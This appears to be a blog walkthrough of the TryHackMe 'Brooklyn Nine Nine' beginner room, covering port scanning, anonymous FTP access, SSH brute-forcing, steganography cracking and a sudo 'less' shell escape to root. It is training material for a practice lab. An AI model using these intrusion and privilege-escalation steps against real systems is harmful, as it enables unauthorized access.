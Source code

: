 ```yaml
---
layout: post
title: Brookyln Nine Nine Writeup
categories: [TryHackMe]
tags: [Misconfigured FTP, Steganography, Bruteforce]
---
```

 
# Brooklyn Nine Nine walkthrough.
This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box, you can check it out here: [Tryhackme](https://www.tryhackme.com/room/brooklynninenine)
          
          
## Preface
First off I am personally a huge fan of the show, (Amy is my fav character btw I'm sure yunno why lol) and It's a quite easy one, but no worries if you're stuck I'll walk you through buddy;) but first I'll leave hints to stimulate your mind:

![image](/assets/img/posts/brooklyn99.jpg)


## Hints
- checked source code yet??
- Port 80 exists for a reason yunno?
- Hmph, just a picture? 
- Bruteforcing steg?

First things first, a Portscan so we know our attack surface:

```
┌──(azazel㉿azazel)-[~/Tryhackme/Brooklyn99]
└─$ nmap -sC -sV 10.10.24.94 -Pn -vv -p 1-1024 -T4 --open  
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.45.27
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Perfect, port 21, 22 and 80, ftp, ssh and http all present, lets get to it then...

## First method::
Got anon logins allowed on ftp, so, swiftly I log in to "get" the file we see from our script scan: "note_to_jake.txt" where Amy gives us a clear hint(See why I like her?)::

```
┌──(azazel㉿azazel)-[~/Tryhackme/Brooklyn99]
└─$ ftp 10.10.24.94
Connected to 10.10.24.94.
220 (vsFTPd 3.0.3)
Name (10.10.24.94:azazel): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (378.5372 kB/s)
```
I read the file and get the clue that Jake is using weak creds(Classic Jake), 
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
Hehee I let Hydra do his thing::
![image](/assets/img/posts/B991edit.png)

Welp, Jake was not the root user and the user.txt is also not his or in his home directory, I navigated to Holt's after searchiing Amy's and finding nothing and found the user.txt flag,  
before scp...ing or wget...ing any Privesc script I like to manually check for LPE vectors apparently we have sudo permissions to use "less". [gtfobins](https://gtfobins.github.io/) says we can use this for privesc like so::

![image](/assets/img/posts/b99Privesc.png)
next::
```
sudo less /etc/profile 
```
And append 
```
!/bin/sh
```
And that's it we are root! read the root.txt file, submit the flags.

Why this was fun is because it made me understand the relevance of the /etc/profile config file, it is basically a root owned file that is ran on login of any user as a child process of systemd(like all processes are) that controls system-wide default variables especially terminal type in our case scenerio, us having priviledged access to the "less" command utility which provides a "vim or a vim-like interface" to read files and edit binaries, and leveraging that allowed us carry out command operations within the file with the "less" binary allowing us spawn a root shell.



## Second Intended Method
Won't be posting images to display cause I forgot to document this part lol, but its pretty basic, I'll give the steps here ;
- Visited port 80 and checked source code which gave the clue:
 ```
 Have you ever head of steganography?
 ```
- Downloaded the image being served on port 80 through the server, Yes the seemingly unsuspecting image.
  Tried a few common passwords and failed swiftly and then decided to google-fu a little for tools to bruteforce a steg image and found two: stegcracker and stegseek, although stegseek is more revered due to it's speed and is an upgrade, but I prefer stegcracker on multithread :) 
  (this is me from the future taking back what I said here back lmao, stegseek is King)
 
- Then I used Stegcracker:
```
sudo apt install stegcracker
```
![image](/assets/img/posts/steg-bb9.png)

- cat the output file, from using the pass to extract the stego image and it gives us this::

``` 
Holts Password:
fl#################e

Enjoy!!
```

- It gives us Holts ssh creds, I log in, Holt has a different sudo permission(Nano), easy fix: used [gtfobins](https://gtfobins.github.io/) and got root!
And thats it, We hacked the nine nine mate! ;)


Greetings, from [Rami3l](https://www.tryhackme.com/p/Rami3l)
